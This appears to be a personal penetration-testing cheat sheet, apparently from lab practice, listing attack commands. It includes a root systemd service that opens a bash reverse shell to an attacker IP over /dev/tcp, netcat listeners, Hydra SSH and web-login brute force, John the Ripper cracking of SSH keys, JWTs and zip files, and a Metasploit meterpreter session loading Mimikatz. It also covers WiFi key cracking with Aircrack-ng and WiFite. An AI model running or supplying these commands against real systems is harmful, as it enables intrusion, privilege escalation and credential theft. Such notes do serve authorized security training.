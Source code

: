 # Attack Tools

## Reverse Shell

### Netcat

Install```sudo apt install ncat```

Start netcat listening on e.g. port 1234: ```nc -lvnp 1234```

Once payload is triggered netcat will open a reverse shell:

![netcat_injecttest](_netcat_injecttest.jpg)

### Create service

Create 0xfab1.service in /temp/

``` txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim: ```nc -vl 44444 > fab.service```
- on attacker: ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999: ```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

``` sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```

## Web

### Wordpress

[WPScan](https://github.com/wpscanteam/wpscan) is a WordPress security scanner to test the security of their WordPress websites.

Example

``` sh
wpscan --url http://example.org/wordpress -e u
wpscan --url http://example.org/wordpress --usernames admin --passwords wordlist.txt --threads 10
```

## Passwords

- Crunch: create custom wordlists

### John the ripper

[John the Ripper](https://github.com/openwall/john) is a tool for offline password cracking. If you prefer a GUI there is one available [here](https://github.com/openwall/johnny).

Crack keyfile PW

``` sh
gzip -d /usr/share/wordlists/rockyou.txt.gz
/usr/share/john/ssh2john.py ssh-key-kay.txt > forjohn.txt
john forjohn.txt --wordlist /usr/share/wordlists/rockyou.txt
```

Convert a JWT to a format John the Ripper can understand with [jwt2john](https://github.com/Sjord/jwtcrack):

``` sh
wget --quiet -O /usr/local/bin/jwt2john.py "https://raw.githubusercontent.com/Sjord/jwtcrack/master/jwt2john.py"
sed -i '1s;^;#!/usr/bin/env python\n;' /usr/local/bin/jwt2john.py
chmod +x /usr/local/bin/jwt2john.py
```

Crack a password protected zip file:

``` sh
zip2john filename.zip > filename.hash
john filename.hash --wordlist=wordlist.txt --verbosity=5
```

### Hydra

SSH PW Brute Force user "user"

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.10.112.131
```

Web Form Brute Force:

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt 10.10.233.243 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V 
```

## Metasploit

### Config

Start PostgreSQL und Metasploit on boot

``` sh
update-rc.d postgresql enable
update-rc.d metasploit enable
```

Manuall start

``` sh
service postgresql start
service metasploit start
```

### Start msfconsole

Init Metaspoit and start the console

``` sh
msfdb init
msfconsole -h
msfconsole
db_status
```

Add Target

``` sh
db_nmap -sV 10.10.201.217
```

Scan Target

``` sh
hosts
services
vulns
```

### Use Exploit

This is an example using an exploit with Metasploit:

``` sh
search multi/handler
use # exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.193.173
set RHOSTS 10.10.201.217
use icecast
run -j
sessions
sessions -i 1
```

Check Machine

``` sh
getprivs
sysinfo
getuid
```

Start Mimikatz

``` sh
load kiwi
```

Try different exploits

``` sh
run post/windows/gather/checkvm
run post/multi/recon/local_exploit_suggester
run post/windows/manage/enable_rdp
```

``` sh
run autoroute -s 10.10.201.217 -n 255.255.255.0
```

## WiFi

### Aircrack-NG suite

Send Kismet dump

``` sh
aircrack-ng -b 00:1E:58:B4:24:F4 /root/Kismet.dump
```

Preparing The WIFI Card for Airodump

``` sh
modprobe -r iwl3945
modprobe ipwraw
airmon-ng start [device]
airodump-ng [device]
airodump-ng -c [channel] -w [network.out] –bssid [bssid] [device]
aireplay-ng -1 0 -a [bssid] -h 00:11:22:33:44:66 -e [essid] [device]
airplay-ng -3 -b [bssid] -h 00:11:22:33:44:66 [device]
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b [bssid] -h 00:11:22:33:44:66 [device]
aircrack-ng -n 128 -b [bssid] [filename]-01.cap
```

### WiFite2

[wifite2](https://github.com/kimocoder/wifite2) is a tool to audit WEP or WPA encrypted wireless networks. It uses aircrack-ng, pyrit, reaver, tshark tools to perform the audit.

Examples:

- Cracking WPS PIN (Pixie-Dust with Reaver to get PIN and Bully to get PSK): ```wifite -e ESSID```
- Cracking WPA key using PMKID attack: ```wifite -e ESSID --pmkid```
- Decloaking & cracking a hidden access point on channel 10 using the WPA Handshake attack: ```wifite -c 10```
- Cracking a weak WEP password using the WEP Replay attack: ```wifite --wep```
- Cracking a pre-captured handshake using John The Ripper: ```wifite --crack```
- Cracking a 5Ghz WiFi (skipping WPS, PMKID to save time) using a given dictionary: ```sudo wifite --kill --no-wps --no-pmkid --5ghz --dict wordlist.txt```

### Kismet

Config [Kismet](https://www.kismetwireless.net)

- Config this file ```/usr/local/etc/kismet.conf```
- And add a sourece e.g. ```source=ipw2200,eth1,Intel```

Commands

- ss (type)
- L (choose WIFI+Channel)
- i (Info -> copy BSSID)

### Fluxion

Clone of the target Wi-Fi network.

